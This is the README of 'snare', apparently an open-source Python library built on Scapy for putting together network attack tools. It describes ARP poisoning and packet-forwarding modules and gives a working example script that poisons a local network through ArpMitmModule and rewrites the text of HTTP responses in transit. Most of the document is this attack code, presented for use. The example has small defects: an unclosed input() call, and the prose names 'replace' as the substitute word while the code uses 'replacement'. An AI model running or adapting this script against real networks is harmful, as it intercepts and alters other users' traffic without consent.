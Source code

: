 snare
=====
**Capture and manipulate traffic off the network**

Snare provides a Sniffer class and a few "modules" which can be assembled to form attack tools.
These classes are based on Scapy and provide a convenient way to interact with and compose tools from it's functionality.

The advanced functions such as ARP poisoning, packet forwarding, and analysis are decomposed into modules to allow
for greater flexibility and flexibility. Look at the constructed strategies for examples of how to compose the modules.

Example
-------

Suppose you hate the string "search" and you want to MitM your local network, replacing all instances of the word in HTTP responses with the word "replace". Well the following script will do that for you!

.. code-block:: python

  import scapy.all as scapy
  import snare

  @snare.tcpfilter
  def inject(pkt):
      if all(layer in pkt for layer in (scapy.IP, scapy.TCP)):
          if scapy.Raw in pkt and pkt[scapy.TCP].sport == 80:

              s = b"search"
              r = b"replacement"

              raw = pkt[scapy.Raw]
              if s in raw.load:
                  raw.load = raw.load.replace(s, r)
                  print(pkt.show())
      return pkt

  sniffer = snare.Sniffer(iface="eth0")
  sniffer.register(
      snare.ArpMitmModule(filter=inject)
  )
  sniffer.start()
  input("Starting injection attack. Press enter to quit."
  sniffer.stop()
